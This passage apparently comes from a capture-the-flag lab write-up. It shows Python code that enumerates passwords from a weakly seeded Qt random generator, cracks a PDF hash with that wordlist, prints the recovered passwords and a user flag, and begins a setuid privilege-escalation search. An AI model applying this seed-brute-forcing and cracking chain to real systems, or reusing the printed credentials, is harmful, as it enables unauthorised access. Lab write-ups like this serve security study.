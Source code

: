 Which means there are only 1k possible passwords.
```python
from PySide2.QtCore import *
length = 32
charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890~!@#$%^&*()_-+={}[]|:;<>,.?'
for i in range(0,999):
    qsrand(i)
    password = ''
    for i in range(length):
        idx = qrand() % len(charset)
        nchar = charset[idx]
        password += str(nchar)
    print(password)
```

## PDF
There is a pdf in stevens directory that needs a password. So going to brute force it with the list made above.

Hash:
```
notes.pdf:$pdf$2*3*128*-1028*1*16*c19b3bb1183870f00d63a766a1f80e68*32*4d57d29e7e0c562c9c6fa56491c4131900000000000000000000000000000000*32*cf30caf66ccc3eabfaf371623215bb8f004d7b8581d68691ca7b800345bc9a86
```

Password:
It didn't crack?

This could be due to the fact that linux and windows will generate different random seeds.

Rerunning the file on windows does generate a different list.

Hash now cracks to:
```
YG7Q7RDzA+q&ke~MJ8!yRzoI^VQxSqSS
```

The note gives ethan's password:
```
b@mPRNSVTjjLKId1T
```

user.txt:
```
fb528f735a118d3b713ca8aa5120319d
```

# Ethan User
SetUID's
```
find / -perm -4000 -ls 2>/dev/null
```
